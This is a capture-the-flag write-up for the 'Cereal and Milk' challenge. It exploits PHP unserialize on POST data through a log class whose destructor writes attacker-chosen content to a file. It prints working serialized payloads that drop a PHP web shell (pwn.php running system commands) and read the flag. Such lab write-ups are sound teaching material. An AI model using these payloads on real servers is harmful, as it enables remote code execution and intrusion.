


# Cereal and Milk

Thank you to `N1z0ku` and `NightWolf` (the author) for their hints :)

## The brief

```
What do you like for breakfast? Cereal and milk is my favorite.
Sometimes, it tastes a bit odd though.
```

## Looking at the source code

In `index.php`:
```php
<?php

include 'log.php';

class CerealAndMilk
{
    public $logs = "request-logs.txt";
    public $request = '';
    public $cereal = 'Captain Crunch';
    public $milk = '';
    

    public function processed_data($output)
    {
        echo "Deserilized data:<br> Coming soon.";
       # echo print_r($output);
        
    }

    public function cereal_and_milk()
    {
     echo $this->cereal . " is the best cereal btw.";   
    }

}

$input = $_POST['serdata'];
$output = unserialize($input);

$app = new CerealAndMilk;
$app -> cereal_and_milk($output);


?>
```
Our data is sent as post data, then deserialized and used as the new `CerealAndMilk` object. Alrigh, what about `log.php`:
```php
<?php

class log
{
    public function __destruct()
        {
            $request_log = fopen($this->logs , "a");
            fwrite($request_log, $this->request);
            fwrite($request_log, "\r\n");
            fclose($request_log);
        }
}

?>
```
the `log` has only a `__destruct()` function, which is called when an object is deserialized. What happens is, it opens the `logs` file that is provided in `append` mode and appends the `request` that was provided. </br>

So what do we actually have to do? Create a serialized object, input that and get code execution. Don't believe me? You'll see.

## Payload

The payload may be generated using php code:
```php
<?php

include 'log.php';

class CerealAndMilk
{
	public function __construct()
	{
		$this->logs = "pwn.php";
		$this->request = "<?php system('ls -l .') ?>";
		$this->cereal = "Frosties";
		$this->milk = "full";
	}

}

$cer = new CerealAndMilk();
echo serialize($cer);
echo "\n";
?>
```
But this payload doesn't work, how can we make it better? Well two things. I changed the `log.php` code and made sure for `fast deserialization` to happen, using arrays.</br>
`log.php`
```php
<?php

class log
{
	public function __construct()
    {
        $this->logs='pwn.php';
        $this->request='<?php system("ls -l ."); ?>';
    }

    public function __destruct()
        {
            $request_log = fopen($this->logs , "a");
            fwrite($request_log, $this->request);
            fwrite($request_log, "\r\n");
            fclose($request_log);
        }
}

?>
```
And the `payload.php` code:
```php
<?php
include 'log.php';

class CerealAndMilk
{

    public function __construct() 
    {
        $this->log[0] = new log();
        $this->cereal[0] = 'Frosties';
        $this->milk[0] = 'full';
        $this->log[1] = new log();
        $this->cereal[1] = 'Frosties';
        $this->milk[1] = 'full';
    }

}

$cer = new CerealAndMilk();
echo serialize($cer);
echo "\n";

?>
```
And the output:
```
O:13:"CerealAndMilk":3:{s:3:"log";a:2:{i:0;O:3:"log":2:{s:4:"logs";s:7:"pwn.php";s:7:"request";s:27:"<?php system("ls -l ."); ?>";}i:1;O:3:"log":2:{s:4:"logs";s:7:"pwn.php";s:7:"request";s:27:"<?php system("ls -l ."); ?>";}}s:6:"cereal";a:2:{i:0;s:8:"Frosties";i:1;s:8:"Frosties";}s:4:"milk";a:2:{i:0;s:4:"full";i:1;s:4:"full";}
```
Now another quirk, do not copy the last `}`. There should be only one at the end. Now to see if it works, input it and then navigate to `/pwn.php`:
</br>



</br>

Great! That one directory looks strange, just change the `system()` command to `cat ndwbr7pVKNCrhs-CerealnMilk/flag.txt` and here we go!:
</br>

The payload `O:13:"CerealAndMilk":3:{s:3:"log";a:2:{i:0;O:3:"log":2:{s:4:"logs";s:7:"pwn.php";s:7:"request";s:59:"<?php system("cat ndwbr7pVKNCrhs-CerealnMilk/flag.txt"); ?>";}i:1;O:3:"log":2:{s:4:"logs";s:7:"pwn.php";s:7:"request";s:59:"<?php system("cat ndwbr7pVKNCrhs-CerealnMilk/flag.txt"); ?>";}}s:6:"cereal";a:2:{i:0;s:8:"Frosties";i:1;s:8:"Frosties";}s:4:"milk";a:2:{i:0;s:4:"full";i:1;s:4:"full";}`

</br>



</br>

Amazing! We have the flag :)